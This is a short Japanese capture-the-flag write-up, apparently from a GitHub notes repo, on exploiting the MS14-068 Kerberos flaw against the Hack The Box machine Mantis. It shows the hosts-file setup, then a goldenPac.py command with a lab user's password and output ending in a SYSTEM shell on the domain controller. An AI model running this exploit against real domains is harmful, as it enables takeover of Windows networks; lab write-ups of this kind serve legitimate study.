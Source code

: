 # Kerberos の脆弱性により特権が昇格される（MS-14-068）

- [Microsoft公式](https://docs.microsoft.com/ja-jp/security-updates/securitybulletins/2014/ms14-068)
- [HTB-Mantisで参考にした動画](https://www.youtube.com/watch?v=kMRhTZalAzU)

-> 説明とか、詳細はMicrosoftの上の公式ページで全て解説されてる

## 実際にやってみた（HTB-Mantis）
### まずは/etc/hostsを編集

```terminal
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.52     htb.local mantis.htb.local

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

**mantis.htb.local**はenumしたとき**ldapServiceName**として出てきたもの。

<- この**mantis.htb.local**は **”ドメインコントローラ”** の名前だ！

### 実行
（ビックリマークは`\`でエスケープしてる）

```
┌──(kali㉿kali)-[~]
└─$ goldenPac.py htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local
Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file NBmNmoxP.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service aDay on mantis.htb.local.....
[*] Starting service aDay.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

